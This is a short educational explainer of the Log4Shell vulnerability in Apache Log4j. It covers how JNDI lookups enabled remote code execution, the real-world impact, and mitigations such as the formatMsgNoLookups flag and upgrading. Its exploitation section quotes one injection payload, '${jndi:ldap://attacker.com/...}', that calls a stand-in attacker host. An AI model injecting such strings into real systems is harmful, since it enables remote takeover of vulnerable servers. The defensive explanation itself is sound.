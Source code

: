 🔹 Log4j / Log4Shell 

1. What is Log4j?

    Log4j is a widely used Java logging framework maintained by Apache. It’s embedded in countless enterprise applications, cloud services, and even consumer apps to record system events, errors, and user activities.




2. The Vulnerability (Log4Shell – CVE-2021-44228)

    The flaw existed in Log4j versions ≤ 2.14.1 due to how it handled message lookups.

    Log4j allowed log messages to include expressions like ${}.

    When ${jndi:...} was used, Log4j would perform a Java Naming and Directory Interface (JNDI) lookup.

    That lookup could fetch resources (including Java classes) from remote servers.

In short: user input could trigger Log4j to fetch and execute attacker-controlled code.




3. How It’s Exploited

   Attacker finds any input that gets logged (HTTP header, form field, chat message, etc.).

   Injects something like:

   ${jndi:ldap://attacker.com/exploit}


   Log4j processes it → contacts attacker’s LDAP/RMI server.

   Attacker’s server replies with malicious bytecode.

   The vulnerable application loads it → Remote Code Execution (RCE).




4. Why It Was So Dangerous

    Ease of exploit – a single string in any logged input could trigger it.

    No authentication required – works before login in many apps.

    Massive exposure – Log4j was everywhere (Minecraft, AWS, Apple, VMware, etc.).

    High impact – attackers gained full control of servers (RCE).



5. Real-World Impact

    Publicly disclosed December 9, 2021, though discovered late November 2021.

    Within hours, it was being mass exploited to:

    Deploy ransomware

    Build botnets (e.g., Mirai variants)

    Steal sensitive data

    Install crypto-miners

   Organizations worldwide scrambled to patch immediately.

The U.S. government called it one of the most serious software vulnerabilities ever found.





6. The Fix

    Temporary mitigation: disable lookups with

    -Dlog4j2.formatMsgNoLookups=true


    Permanent solution: upgrade to patched versions (≥ Log4j 2.17.1 for Java 8).

   Security best practices: use Web Application Firewalls (WAFs), limit outbound connections, and monitor for exploit attempts.